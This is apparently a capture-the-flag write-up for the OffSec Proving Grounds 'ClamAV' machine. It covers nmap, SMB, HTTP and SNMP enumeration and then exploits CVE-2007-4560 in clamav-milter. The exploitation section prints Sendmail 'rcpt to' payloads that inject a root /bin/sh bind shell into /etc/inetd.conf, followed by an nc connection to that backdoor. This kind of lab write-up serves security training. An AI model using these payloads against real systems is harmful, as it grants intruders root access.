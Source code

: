 # 🧪 Machine Name: ClamAV

**Platform:** OffSec Proving Grounds  
**IP Address:** `192.168.228.42`  
**Difficulty:** Easy  

---

## 🕵️ Overview

ClamAV is an OffSec PG box that exposes several interesting services including an outdated mail setup with `clamav-milter`. After ruling out HTTP, SMB, and SNMP as dead-ends, we identify and exploit a remote root vulnerability in `clamav-milter` triggered through Sendmail. We confirm root with `proof.txt`, `hostname`, and `whoami`.

---

## 🔍 Enumeration

### 🔎 Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 192.168.228.42

PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### 🔍 Nmap Targeted Enumeration
```
nmap -p 22,25,80,139,199,445,60000 -sC -sV -oN nmapscan 192.168.228.42

22/tcp  - OpenSSH 3.8.1p1
25/tcp  - Sendmail 8.13.4
80/tcp  - Apache 1.3.33 (Debian GNU/Linux)
445/tcp - Samba smbd 3.0.14a-Debian
199/tcp - Linux SNMP multiplexer
```

---

## 🔒 Service Enumeration

### 🚩 SMB (Guest access, no usable shares)
```
netexec smb 192.168.228.42 -u guest -p '' --shares
```
- No writable or interesting shares.

### 📄 HTTP
- Binary on main page decodes to: `ifyoudontpwnmeuran00b`
- Apache 1.3.33 found
- Dirbusting reveals only `/index.html` and standard 403s
- No RCE or LFI discovered

### 🔢 SNMP (UDP 161)
```bash
nmap -sU -p161 --script "*snmp*" 192.168.228.42
```
- SNMP is **misconfigured with community string `public`**
- Reveals clamav-milter and Sendmail processes

---

## ⚡ Exploitation

### 📄 CVE-2007-4560 – ClamAV Milter Remote Command Execution
- Found clamav-milter in SNMP output
- Vulnerability: Improper handling of Sendmail `rcpt to:` parsing can be used to append commands to `/etc/inetd.conf`
- Exploit reference: [CVE-2007-4560 – clamav-milter RCE via Sendmail](https://www.exploit-db.com/exploits/4761)

```bash
perl CVE-2007-4560.pl 192.168.228.42
```
Payload:
```bash
rcpt to: <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"@localhost>
rcpt to: <nobody+"|/etc/init.d/inetd restart"@localhost>
```

### 🔧 Root Access via Backdoor
```bash
nc -nv 192.168.228.42 31337
whoami    # root
hostname  # 0xbabe.local
cat proof.txt
a3c43c727ec533f1387ef24134c8cea1
```

---

## 💡 Lessons Learned
- `clamav-milter` RCE is rarely seen but extremely effective if exposed.
- SNMP misconfig (public string) provided process insights that led to the correct exploit.
- Services like `inetd` are uncommon but still exploitable on legacy systems.

---

## 📷 Proof
![ClamAV Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_clamav.png)

